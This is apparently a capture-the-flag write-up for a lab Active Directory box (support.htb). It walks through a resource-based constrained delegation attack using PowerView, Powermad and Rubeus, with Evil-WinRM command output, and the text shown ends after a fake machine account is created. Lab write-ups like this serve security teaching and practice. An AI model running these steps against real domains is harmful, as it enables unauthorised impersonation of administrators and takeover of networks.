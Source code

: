 ```
I’m going to abuse resource-based constrained delegation. First I’ll add a fake computer to the domain under my control. Then I can act as the DC to request Kerberos tickets for the fake computer giving the ability to impersonate other accounts, like Administrator. For this to work, I’ll need an authenticated user who can add machines to the domain (by default, any user can add up to 10). This is configured in the ms-ds-machineaccountquota attribute, which needs to be larger than 0. Finally, I need write privileges over a domain joined computer (which GenericALL on the DC gets me.)
```

I’ll need three scripts to complete this attack:
```
PowerView.ps1
PowerMad.ps1
Rubeus.exe (pre-compiled exes from SharpCollection)
```

I’ll upload these and import the two PowerShell scripts into my session:

I’ll need to know the administrator on DC, which Bloodhound tells me is administrator@support.htb:
![[Pasted image 20240905132915.png]]

I’ll verify that users can add machines to the domain:
```
*Evil-WinRM* PS C:\programdata> Get-DomainObject -Identity 'DC=SUPPORT,DC=HTB' | select ms-ds-machineaccountquota

ms-ds-machineaccountquota
-------------------------
                       10
```

The quote is set to the default of 10, which is good.

I’ll also need to make sure there’s a 2012+ DC in the environment:
```
*Evil-WinRM* PS C:\programdata> Get-DomainController | select name,osversion | fl

Name      : dc.support.htb
OSVersion : Windows Server 2022 Standard
```

Finally, I’ll want to check that the `msds-allowedtoactonbehalfofotheridentity` is empty:
```
*Evil-WinRM* PS C:\programdata> Get-DomainComputer DC | select name,msds-allowedtoactonbehalfofotheridentity | fl

name                                     : DC
msds-allowedtoactonbehalfofotheridentity :
```

I’ll use the `Powermad` `New-MachineAccount` to create a fake computer:
```
*Evil-WinRM* PS C:\programdata> New-MachineAccount -MachineAccount 0xdfFakeComputer -Password $(ConvertTo-SecureString '0xdf0xdf123' -AsPlainText -Force)
[+] Machine account 0xdfFakeComputer added
```
